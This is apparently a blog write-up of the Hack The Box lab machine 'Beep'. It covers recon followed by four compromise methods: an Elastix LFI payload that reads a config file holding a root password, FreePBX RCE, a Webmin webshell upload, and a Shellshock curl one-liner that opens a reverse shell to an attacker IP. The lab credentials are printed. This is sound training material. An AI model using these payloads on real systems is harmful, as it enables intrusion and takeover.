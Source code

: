 ```yaml
---
title: Beep
date: 2023-02-18 09:45:47 +07:00
modified: 2023-02-18 09:45:47 +07:00
tags: [Shellshock, Beep, LFI, RCE, Hackthebox, Writeup]
description: Write Up for Hackthebox Machine Beep
---
```


![](https://photos.squarezero.dev/file/abir-images/Beep/logo.png)

Machine Name → **Beep**

Lab Link → [https://app.hackthebox.com/machines/Beep](https://app.hackthebox.com/machines/Beep)

Difficulty → [Easy]()


## Fixes
Due to this machine's age and the outdated TLS version, issues emerge.
Before we move on, let's solve a couple of them.

### Firefox

![](https://photos.squarezero.dev/file/abir-images/Beep/21.png)

### Curl & gobuster 
-k, --insecure           Allow insecure server connections




## **Recon**

I begin as usual with a Nmap scan.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Beep/1.png)

Multiple ports are open. 

|Ports|Service
|22| ssh OpenSSH 4.3 (protocol 2.0)
|25| smtp
|80| Apache httpd 2.2.3
|110| pop3
|111| rpcbind
|143| imap
|443| Apache httpd 2.2.3
|3306| mysql
|10000| http MiniServ 1.570 (Webmin httpd)

Next, I used [Gobuster]() to find interesting directories.

`gobuster dir -u https://beep.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k`

![](https://photos.squarezero.dev/file/abir-images/Beep/2.png)



## **Method 1 → LFI**

After visiting the website I have found a login page that use [Elastix]().

![](https://photos.squarezero.dev/file/abir-images/Beep/3.png)

I looked for possible exploits and found an LFI vulnerability. 

![](https://photos.squarezero.dev/file/abir-images/Beep/4.png)

You can find the full explanation in [ExploitDB](https://www.exploit-db.com/exploits/37637)

Payload →
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

After using the payload I found passwords for other portals.

![](https://photos.squarezero.dev/file/abir-images/Beep/5.png)

Next I tried to use ssh with following credential to get access.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/6.png)

## **Method 2 → Remote Code Execution **

When visiting `/admin` , It asks for password. If cancel is pressed it took me to [FreePBX]() page. 

![](https://photos.squarezero.dev/file/abir-images/Beep/7.png)

After logging in we get admin dashboard access.

`admin:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/8.png)

After researching for a little bit I found this vulnerability in [ExploitDB](https://www.exploit-db.com/exploits/18650)

In order for the exploit to work it requires a valid extension.

We can use [svmap]() to find SIP devices in the network and [svwar]() to bruteforce for valid extension.

We can use `INVITE` option to reveal all valid extensions.

![](https://photos.squarezero.dev/file/abir-images/Beep/9.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/10.png)

Afternatively I found the extension in the recordings dashboard as well.

![](https://photos.squarezero.dev/file/abir-images/Beep/11.png)

After finding the extension I found a shell in the system.

![](https://photos.squarezero.dev/file/abir-images/Beep/12.png)

## **Method 3 → FileUpload Code Execution**

In port 10000 I found [Webmin]() login page. I logged in with valid credentials and found the admin dashboard.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/13.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/14.png)

There was already a commandshell option in the site. 

![](https://photos.squarezero.dev/file/abir-images/Beep/15.png)

There was also a file upload option in the website.

![](https://photos.squarezero.dev/file/abir-images/Beep/22.png)

I uploaded a webshell and after visiting the directory I can execute commands.

![](https://photos.squarezero.dev/file/abir-images/Beep/16.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/17.png)

Then I got a revershell using the webshell I spawned. 

![](https://photos.squarezero.dev/file/abir-images/Beep/18.png)

## **Method 4 → ShellShock**

While exploring the website I found ![cgi-bin]](). 
This reminded me of [ShellShock]() vulnerability.

![](https://photos.squarezero.dev/file/abir-images/Beep/19.png)

I got a revershell using the vulnerability.

`curl -ks -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >& /dev/tcp/10.10.14.21/9999 0>&1;" https://beep.htb:10000`

![](https://photos.squarezero.dev/file/abir-images/Beep/20.png)

